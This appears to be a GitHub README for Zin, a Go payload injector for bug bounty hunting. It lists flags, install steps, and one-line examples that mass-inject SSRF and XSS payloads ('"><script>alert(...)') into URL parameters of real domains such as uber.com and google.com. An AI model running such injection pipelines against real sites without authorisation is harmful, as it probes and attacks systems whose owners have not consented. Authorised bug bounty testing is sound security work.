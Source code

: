 ![alt text](https://upload.wikimedia.org/wikipedia/commons/9/9a/Filled_Syringe_icon.svg)
##### Version 1.0

# 😎 Zin 😎
**A Payload Injector for bugbounties written in go**



[![Image from Gyazo](https://i.gyazo.com/d305459fe752bba0dd853e63fe81d7f1.gif)](https://gyazo.com/d305459fe752bba0dd853e63fe81d7f1)

### Features

- Inject multiple payloads into all parameters
- Inject single payloads into all parameters
- Saves responses into output folder
- Displays Status Code & Response Length
- Can grep for patterns in the response
- Really fast
- Easy to setup


### New Features
-✅ Pattern Matching in responses 

-✅ Match Status Codes

### Arguments
**```
      _
     (_)
  _____ _ __
 |_  / | '_ \
  / /| | | | |
 /___|_|_| |_|


May the bounties come


  -c int
        the concurrency (default 20)
  -g string
        grep the response for any matches
  -p string
        the payload to be used
  -pL string
        the list of payloads to be used
  -s int
        filter by status codes (default 200)
        
```**


## Install

**`$ git clone https://github.com/ethicalhackingplayground/Zin && cd Zin && go build`**



### SSRF Example
**`$ subfinder uber.com | gau | grep "=http" | ./Zin -c 80 -p http://10.82.214.84:31386/foobar.js -g "SUP3R_S3cret_1337_K3y"`**

### XSS Example

**`$ subfinder uber.com | gau| ./Zin -c 80 -p '"><script>alert(matchforthis)script>' -g "matchforthis"`**


### Inject Multiple Payloads
**`$ cat hosts | gau | grep "&" | ./Zin -c 80 -pL <payloadfile>`**

### Subdomain Scanning

**`$ subfinder -dL domains --silent | gau | ./Zin -c 80 -p <payload>`**


### Only Test Parameters

**`$ echo "google.com" | gau | grep "&" | ./Zin -c 80 -p '"><script>alert(matchthis)</script<"' -g "matchthis" `**

### Multiple Hosts

**`$ cat hosts | gau | ./Zin -c 80 -p <payload>`**


**If you get a bounty please support by buying me a coffee**

<br>
<a href="https://www.buymeacoffee.com/krypt0mux" target="_blank"><img src="https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png" alt="Buy Me A Coffee" style="height: 41px !important;width: 174px !important;box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;-webkit-box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;" ></a>

